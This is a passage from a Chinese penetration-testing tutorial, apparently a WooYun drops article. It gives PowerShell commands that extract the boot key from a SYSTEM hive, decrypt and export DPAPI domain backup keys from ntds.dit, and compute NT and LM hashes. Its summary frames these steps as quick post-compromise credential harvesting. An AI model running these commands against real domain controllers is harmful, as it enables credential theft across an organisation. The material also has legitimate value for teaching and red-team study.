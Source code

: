 5、导出DPAPI backup keys
---------------------

**（1）**获得BootKey

```
Get-BootKey -SystemHiveFilePath 'C:\Users\a\Desktop\a\SYSTEM'
得到c76034ff820edbc012308a258faf3d26

```

如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/79c98f722d7950bd20c62c106b42bdbb2d1ab6a2.jpg)

**（2）**解密得到DPAPI backup keys

```
Get-ADDBBackupKey -DBPath 'C:\Users\a\Desktop\a\ntds.dit'  -BootKey c76034ff820edbc012308a258faf3d26 |  Format-List

```

**（3）**导出到文件

```
Get-ADDBBackupKey -DBPath 'C:\Users\a\Desktop\a\ntds.dit' -BootKey c76034ff820edbc012308a258faf3d26 | Save-DPAPIBlob -DirectoryPath .\Keys

```

6、Hash计算
--------

```
$pwd = ConvertTo-SecureString 'TestTest' -AsPlainText -Force
ConvertTo-NTHash $pwd
ConvertTo-LMHash $pwd
ConvertTo-OrgIdHash -NTHash 'd280553f0103f2e643406517296e7582'

```

如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/9da0c6e21bb3171441d83d8f7adeb61b797f9872.jpg)

0x05 小结
=======

* * *

随着技术的发展，效率一直在提高

在获取域控权限下，导出所有用户hash的方法越来越简便，当域控被攻陷后，可以在很短的时间内提取出有用的信息用来进一步渗透，内网渗透将会越来越有趣。

本文由三好学生原创并首发于乌云drops，转载请注明
